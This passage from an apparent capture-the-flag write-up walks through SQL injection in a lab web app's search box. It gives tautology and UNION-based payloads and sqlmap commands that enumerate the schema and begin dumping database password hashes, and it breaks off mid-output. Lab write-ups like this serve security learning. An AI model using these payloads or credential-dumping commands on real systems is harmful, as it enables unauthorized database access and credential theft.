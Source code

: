We are now in admin panel.

Let's notice that searchbox have SQLi, because we got all items by typing
```
' OR '1'='1
```

With an union attack, it gives "Error: SQLSTATE[21000]: Cardinality violation: 1222 The used SELECT statements have a different number of columns
" error until we got 6 items: 

```
Request: ' union all select null, null, null, null, null, null; -- 

Response:  Error: SQLSTATE[HY000]: General error

```


Let's run sqlmap for saving time:

```
sqlmap --proxy=http://127.0.0.1:8080 --data=productName=16 -u http://10.10.10.167/search_products.php --schema

```

Into the "warehouse" DB (actually, our current DB), we have 3 tables:

```
[3 tables]
+------------------+
| product          |
| product_category |
| product_pack     |
+------------------+
```

Current user: manager@localhost

With the --passwords flag, it get some user:passwords of the db:

```

kali@kali:~$ sqlmap --proxy=http://127.0.0.1:8080 --data=productName=16 -u http://10.10.10.167/search_products.php --passwords
        ___
       __H__                                                                                                       
 ___ ___[.]_____ ___ ___  {1.4#stable}                                                                             
|_ -| . [,]     | .'| . |                                                                                          
|___|_  [)]_|_|_|__,|  _|                                                                                          
      |_|V...       |_|   http://sqlmap.org                                                                        

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 17:50:52 /2020-04-24/

[17:50:52] [INFO] resuming back-end DBMS 'mysql' 
[17:50:52] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: productName (POST)
    Type: boolean-based blind
```